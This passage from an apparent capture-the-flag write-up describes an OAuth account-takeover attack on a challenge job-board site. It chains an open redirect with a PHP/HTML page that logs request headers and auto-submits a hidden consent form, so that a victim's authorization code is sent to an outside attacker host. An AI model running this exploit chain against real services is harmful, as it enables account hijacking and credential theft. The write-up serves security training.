 However, in the app, we see that there is a feature to redirect to other sites: `http://jobboard2.chall.malicecyber.com/safelink/http%3A%2F%2Fexample.com%2F`. It is possible to get a valid `jobboard2.chall.malicecyber.com` link redirecting to a 3rd party website. We'll make use of it to retrieve our code. The final phase is to force user to accept the login automaticaly in the oauth process, and we'll make use of a auto-post form to this:

```php
<?php
$fd = fopen('dump.txt', 'a+');
$d = date(DATE_ATOM);
fwrite($fd, "========== " . $d . " ========\n");
fwrite($fd, json_encode(getallheaders()));
fwrite($fd, "\n==========\n\n");
fclose($fd);

$tartarget_url = urlencode("http://syndevio.com/php/dest.php");
$target_url = urlencode("http://jobboard2.chall.malicecyber.com/safelink/" . $tartarget_url);
$final_url = "http://jobboard2.chall.malicecyber.com/oauth/authorize?client_id=svvhKlyEA7qODbl16JTUPQNz&response_type=code&scope=profile&redirect_uri=" . $target_url;
$realfinal_url = "https://jobboard2.chall.malicecyber.com/safelink/" . urlencode($final_url);

// url for this page: http://syndevio.com/php/index.php
// => get code in logs
// => use code in next url:
// http://jobboard2.chall.malicecyber.com/connect/auth/callback?code=zpxFUTs3YEsXLYOyWhMrgEj4jFl1XUzHgwbJ8aMFfv6N5Wsb
// win!

$redirect = true;
$redirect = true;

?><html>

  <head>
<script type="text/javascript">
function eventFire(el, etype){
  if (el.fireEvent) {
    el.fireEvent('on' + etype);
  } else {
    var evObj = document.createEvent('Events');
    evObj.initEvent(etype, true, false);
    el.dispatchEvent(evObj);
  }
}

window.onload = (event) => {
  console.log('hllo');
  setTimeout(function() {
    var el = document.getElementById('thisone');
    console.log(el);
    el.submit();
  }, 1000);
}
</script>
  </head>

  <body>
    <form method="POST" id="thisone" action="<?php echo $final_url; ?>">
      <input type="hidden" name="confirm" value="Accept">
      <button type="submit" name="confirm" value="Accept">x</button>
    </form>
  </body>
</html>

```